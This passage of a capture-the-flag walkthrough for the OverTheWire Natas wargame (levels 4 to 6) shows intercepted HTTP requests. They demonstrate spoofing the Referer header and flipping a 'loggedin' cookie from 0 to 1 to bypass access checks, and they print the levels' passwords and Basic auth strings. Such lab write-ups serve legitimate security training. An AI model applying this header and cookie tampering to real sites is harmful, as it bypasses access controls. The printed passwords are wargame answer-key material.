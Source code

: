 ```py
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
Referer: http://natas4.natas.labs.overthewire.org/index.php
Upgrade-Insecure-Requests: 1
--------------------------------------------------------
change it to:
Referer: http://natas5.natas.labs.overthewire.org/
--------------------------------------------------------
"Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
```

Note: Once done, go back to Network Settings and select “Use System Proxy Settings” so you can have a normal connection, without it routing through Burp.

---

## Natas Level 4 → Level 5
Username: natas5
URL:      http://natas5.natas.labs.overthewire.org
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

```py
# send the passwd turn
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx

# refresh the Page
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Connection: close
Cookie: loggedin=0
Upgrade-Insecure-Requests: 1
--------------------------------------------------------
# the packet header stores cookie information.
# change loggedin=0 to loggedin=1, and Forward that packet.
--------------------------------------------------------
"Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
```

